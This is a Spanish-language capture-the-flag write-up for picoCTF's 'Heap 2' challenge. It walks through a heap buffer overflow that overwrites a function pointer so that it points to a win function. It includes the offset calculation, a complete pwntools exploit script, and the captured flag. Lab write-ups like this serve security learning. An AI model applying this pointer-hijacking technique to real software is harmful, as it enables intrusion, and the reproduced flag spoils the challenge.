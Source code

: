 # Heap 2

Este ejercicio se parece mucho al ejercicio de Heap 1. Nos dan un programa y su código.

```c
./chall                    

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 
```

En este caso, si intentamos hacer lo mismo que en el ejercicio de Heap 1 tendremos un problema ya que, aunque podemos hacer un buffer overflow la condición de victoria es distinta, vamos a ver el código:

```c
        case 4:
            // Check for win condition
            check_win();
            break;
```

Como podemos ver, si le damos a la opción de Print Flag se llama a la función `check_win()`.

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

Dicha función aunque parezca un jeroglífico simplemente manda el flujo del programa a la dirección de memoria almacenada en x.

Como x es la variable que podemos llegar a reemplazar haciendo uso del buffer overflow si introducimos en `x` la dirección en memoria de otra función podemos mandar el flujo del programa allí.

Justamente hay una función win que imprime la flag:

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Vamos a calcular el offset hasta la variable `x`:

```c
pwn cyclic 50     
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

```c
./chall

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 2
Data for buffer: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x1442a6b0  ->   aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
+-------------+-----------+
[*]   0x1442a6d0  ->   iaaajaaakaaalaaama // Variable x
```

```c
pwn cyclic -l iaaa
32 // Offset
```

Ahora que sabemos el offset vamos a hacer un script con pwntools que automatice el ataque:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("IP", PUERTO)

    return r


def main():
    r = conn()

    offset = 32
    
    payload = flat({
        offset: [
            exe.symbols.win
        ]
    })
    
    r.sendlineafter(b':', b'2')
    r.sendlineafter(b':', payload)
    r.sendlineafter(b'4', b'4')
    r.interactive()


if __name__ == "__main__":
    main()

```

Vamos a comprobar si va:

```c
python solve.py            
[*] '/home/ub1cu0/Desktop/picoCTF/heap-2/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
[+] Opening connection to mimas.picoctf.net on port 60000: Done
[*] Switching to interactive mode
. Print Flag
5. Exit

Enter your choice: picoCTF{and_down_the_road_we_go_7c8d6f32}
```

Funciona!
